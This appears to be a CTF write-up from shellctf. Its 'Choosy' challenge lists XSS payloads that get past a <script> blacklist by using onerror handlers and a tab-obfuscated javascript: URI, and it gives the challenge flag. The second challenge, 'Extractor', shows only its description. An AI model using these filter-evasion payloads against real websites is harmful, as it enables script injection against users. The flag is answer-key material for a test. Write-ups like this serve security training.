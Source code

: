 # 1. Choosy
Description:
Single solution doesn't works on all problems. One should try different solutions for different problem.

link: http://20.193.247.209:8333/

Solution:
+ XSS detected
+ ` <image src/onerror=alert(1)>` this input gives xss
+ <script> tag is blacklisted
+ final payload:`"'><img src=xxx:x \x09onerror=javascript:alert(1)>
+ Flag: shellctf{50oom3_P4yL0aDS_aM0ng_Maaa4nnY}

  
# 2. Extractor
  
  Description: We are under emergency. Enemy is ready with its nuclear weapon we need to activate our gaurds but chief who had password is dead. There is portal at URL below which holds key within super-user account, can you get the key and save us.
  link: http://20.125.142.38:8956/


  

